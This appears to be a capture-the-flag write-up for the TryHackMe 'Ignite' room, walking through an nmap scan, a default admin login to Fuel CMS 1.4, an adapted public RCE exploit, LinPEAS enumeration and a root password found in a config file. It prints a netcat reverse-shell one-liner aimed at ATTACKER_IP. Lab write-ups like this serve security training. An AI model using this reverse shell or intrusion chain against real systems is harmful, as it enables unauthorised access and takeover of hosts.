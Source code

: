```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Easy     |  |  10.10.162.4  |  | [Ignite](https://tryhackme.com/room/ignite) |  |

### [ User.txt ]

To start off, let's run a basic `nmap` scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving Apache httpd 2.4.18. An interesting thing to note is that there is a disallowed entry '/fuel/' in the robots.txt file.

Navigating to the HTTP website, we see a Fuel CMS webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that were left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is:

> admin : admin

Furthermore, the admin page for Fuel CMS can be found in /fuel. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on 'Click here for your site documentation', we can see that the site is running FUEL CMS **1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

**Exploit:**

![screenshot14](../assets/images/ignite/screenshot14.png)

Let's modify the exploit so that it will work for us.

Seems like we just have to change the `url` to the victim's IP address. Also note that the code runs the connection through Burp Proxy, which we will remove as we are not using that. Finally, to allow for compatibility with Python3, I had to make the following changes:

* `raw_input()` to `input()`

* `quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

* `print r.text[0:dup]` to `print(r.text[0:dup])`

The modified exploit script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit, it prompts us to run a command on the target machine. Let's try a simple `whoami` command:

![screenshot16](../assets/images/ignite/screenshot16.png)

Nice, it works! We've achieved RCE on our target.

Now, we'll try setting up a reverse shell. Using pentestmonkey's [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

Now that we're in, we can obtain **user.txt** from www-data's home directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the root password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is:

> mememe

With the root password, we can then log in as root and obtain **root.txt** located in /root.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error "must be run from a terminal" kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account:

![screenshot23](../assets/images/ignite/screenshot23.png)
